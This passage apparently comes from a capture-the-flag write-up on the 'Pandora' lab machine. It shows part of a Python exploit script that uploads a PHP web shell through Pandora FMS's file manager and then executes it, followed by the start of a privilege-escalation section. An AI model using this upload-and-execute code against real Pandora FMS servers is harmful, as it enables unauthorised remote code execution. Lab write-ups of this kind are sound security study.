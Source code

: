 ```py
             'decompress_sent': (None, 1),
             'go': (None, 'Go'),
             'real_directory': (None, '/var/www/pandora/pandora_console/images'),
             'directory': (None, 'images'),
             'hash': (None, '6427eed956c3b836eb0644629a183a9b'),
             'hash2': (None, '594175347dddf7a54cc03f6c6d0f04b4'),
             'upload_file_or_zip': (None, 1)}
    shell_upload = s.post(base_path + "/index.php?sec=gsetup&sec2=godmode/setup/file_manager", files=file_)
    if "Uploaded successfully" in shell_upload.text:
        print("[ + ] Great. PHP script uploaded... Now going to execute for you...")
        try:
            f = s.get(base_path + '/images/shell.php', timeout=0.0001)
            print(f.text)
        except requests.exceptions.ReadTimeout:
            pass
    else:
        print("[ - ] Failed to upload PHP script...")
        print(shell_upload.text)
else:
    print("[ - ] Cannot login to PandoraFMS...")
```

![](screenshots/matt-shell.png)


# Privesc

## setresuid Restriction Bypass

Now we can access to `/usr/bin/pandora_backup`.

But running `sudo -l` gives an error
```bash
(remote) matt@pandora:/home/matt$ sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```

And this error tells that user don't have permission to run [`setresuid()`](https://man7.org/linux/man-pages/man2/setresuid.2.html) function.
